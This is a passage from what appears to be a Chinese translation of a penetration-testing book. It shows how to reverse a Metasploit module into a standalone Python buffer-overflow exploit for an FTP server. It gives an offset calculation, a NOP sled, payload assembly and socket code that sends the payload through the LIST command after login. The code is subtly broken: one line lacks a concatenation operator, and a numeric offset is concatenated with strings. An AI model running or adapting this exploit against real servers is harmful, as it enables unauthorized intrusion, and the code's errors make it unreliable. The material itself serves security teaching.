 每个模块的偏移设置可能不同，您可能需要执行其他数学运算以获得正确的值。因此，请始终查看突出显示的实际利用代码，如下所示：

![Reversing Metasploit modules](img/image00418.jpeg)

我们看到偏移量的长度从大小中删除了 IP 地址。这将创建一个更新的偏移值。

```
offset = 228 - len(lhost)
```

我们可以看到垃圾数据是由随机文本生成的。因此，我们可以以类似的方式生成 NOP。

```
nop = "\x90" *16
```

接下来，我们需要创建注入漏洞代码的操作顺序。

```
exploit = offset + eip + nop + shell
```

正如您所看到的，使用前面几节中使用的知识非常直接。最后一个组件是设置处理程序以与 FTP 服务交互。

```
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((rhost, rport))
print(client.recv(1024))
client.send("USER " + username + "\r\n")
print(client.recv(1024))
client.send("PASS "password + "\r\n")
print(client.recv(1024))
print("[*] Sending exploit")
client.send("LIST" + exploit + "\r\n")
print(client.recv(1024))
client.close()
```

最终的结果是一个可以在实际服务器上测试和运行的 Python 漏洞。这也为测试提供了一个很好的起点。如果您发现 Metasploit 模块不能完美地工作，那么将其反转以创建独立模块将为您提供解决可能问题的机会。

请记住，漏洞利用有一个评估系统，可以评估它们的可靠性。如果该漏洞具有较低的可靠性等级，则意味着它可能无法始终如一地产生所需的结果。这使您有机会尝试并改进实际的 Metasploit 模块，并为社区做出贡献。例如，此漏洞的评级较低；考虑测试并尝试改进它。
